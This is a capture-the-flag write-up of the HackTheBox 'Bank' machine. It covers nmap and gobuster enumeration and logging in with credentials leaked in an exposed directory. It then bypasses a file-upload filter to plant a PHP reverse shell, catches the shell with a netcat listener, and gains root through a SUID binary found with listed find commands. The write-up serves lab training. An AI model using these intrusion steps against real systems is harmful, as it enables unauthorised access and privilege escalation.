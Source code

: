 ```yaml
---
layout: post
title: HackTheBox - Bank
---
```

 
Bank is a relatively simple machine, however proper web enumeration is key to finding the necessary data for entry. There also exists an unintended entry method, which many users find before the correct data is located. 

![Bank](https://github.com/user-attachments/assets/4c3b0d67-8891-4012-9064-98f1bb5781d7)

## Reconnaissance and Enumeration
---

I started with a typical nmap scan -sC for default scripts, -sV to show version, -O for OS detection and -T5 to speed up scan
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ nmap -sC -sV -O -T5 bank.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 23:58 CEST
Nmap scan report for bank.htb (10.10.10.29)
Host is up (0.032s latency).
rDNS record for 10.10.10.29: Bank.htb
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: HTB Bank - Login
|_Requested resource was login.php
Aggressive OS guesses: Linux 3.10 - 4.11 (95%), Linux 3.13 (95%), Linux 3.13 or 4.2 (95%), Linux 4.2 (95%), Linux 4.4 (95%), Linux 3.16 (94%), Linux 3.16 - 4.6 (94%), Linux 3.12 (93%), Linux 3.18 (93%), Linux 3.2 - 4.9 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.58 seconds
```
Standard login page, I didn't find anything usefull in source view
![banklogin](https://github.com/user-attachments/assets/08161350-1137-48e7-a3da-9e9a68114b1e)

Gobuster to enumerate directories on web server.
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://bank.htb          
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bank.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
```
![upload](https://github.com/user-attachments/assets/bef213d8-58d2-4203-990f-e126957d8868)
![assets](https://github.com/user-attachments/assets/08de7ef1-d7e7-480f-9ae3-81602cb9ee8f)
![inc](https://github.com/user-attachments/assets/9ca8bfb6-a245-4d91-b343-570e91a2fd35)

These directories contain standard PHP, JavaScript, and theme files. The `/balance-transfer/` path was more interesting:

![banktransfers](https://github.com/user-attachments/assets/3c27cb87-154f-4453-8071-964063033ebd)
In /balance-transfer, I found a large list of files. Most looked similar, but one file was noticeably smaller in size.
![banktrasnferacc](https://github.com/user-attachments/assets/721616e2-a33f-4628-8fd5-29e025aa0003)

![ourgoodacc](https://github.com/user-attachments/assets/b0788e5d-1fa9-4b46-be54-139ec55e0a87)
It contained a failed encryption error that exposed plaintext credentials. I used those to successfully log in.

![logintobank](https://github.com/user-attachments/assets/11950c0d-0f7a-4509-97c0-07c410104bda)
Logged in as Christos Christopoulos, I didn’t find anything interesting in the source view — so I decided to check the support page.

## Exploitation
---

![support](https://github.com/user-attachments/assets/1351104c-6ff3-4844-b650-81a594ec5aa5)
On the support page, users could attach image files to tickets. While inspecting the source code, I found an HTML comment mentioning support for .htb file extensions — a valuable hint that files with this extension might be accepted, even if they weren’t images.

![supportdevtools](https://github.com/user-attachments/assets/705ab752-7629-4f91-85dc-b95259ad5061)
I created a PHP reverse shell (PentestMonkey) and uploaded it with a .htb extension.
![succuploadphp](https://github.com/user-attachments/assets/321e02bb-d8c6-4df0-94e4-48db400e37ac)
I set up a listener and triggered the shell using the "Click here" button:
![workingshell](https://github.com/user-attachments/assets/bdcf51c5-d3bf-40ef-b603-5ce4256d720d)

```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.29] 41136
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 01:40:30 up 43 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Logged as `www-data`, I spawned proper TTY using `bash -i`, then navigate to home directory to retrieve user flag:
```
$ bash -i
bash: cannot set terminal process group (1072): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Jan 11  2021 .
drwxr-xr-x 22 root  root  4096 Jan 11  2021 ..
drwxr-xr-x  3 chris chris 4096 Jan 11  2021 chris
www-data@bank:/$ wc /home/chris/user.txt
wc /home/chris/user.txt
 1  1 33 /home/chris/user.txt
```

## Privilege Escalation
---

I first checked for sudo permissions
```
www-data@bank:/$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified
```
No permissions, so i checked for SUID binaries, You can search that by following commands:
```
find / -user root -perm -4000 -print 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
find / -type f -perm -u=s 2>/dev/null | xargs ls -l
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

```
www-data@bank:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
www-data@bank:/$ cd /var/htb/bin
cd /var/htb/bin
www-data@bank:/var/htb/bin$ ls -la 
ls -la 
total 120
drwxr-xr-x 2 root root   4096 Jan 11  2021 .
drwxr-xr-x 3 root root   4096 Jan 11  2021 ..
-rwsr-xr-x 1 root root 112204 Jun 14  2017 emergency
www-data@bank:/var/htb/bin$ ./emergency
./emergency
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)                                                                                                                   
```
The `emergency` binary was owned by root and had the SUID bit set. Executing it successfully elevated privileges to root, allowing me to access the final flag.
```
wc /root/root.txt
 1  1 33 /root/root.txt
```
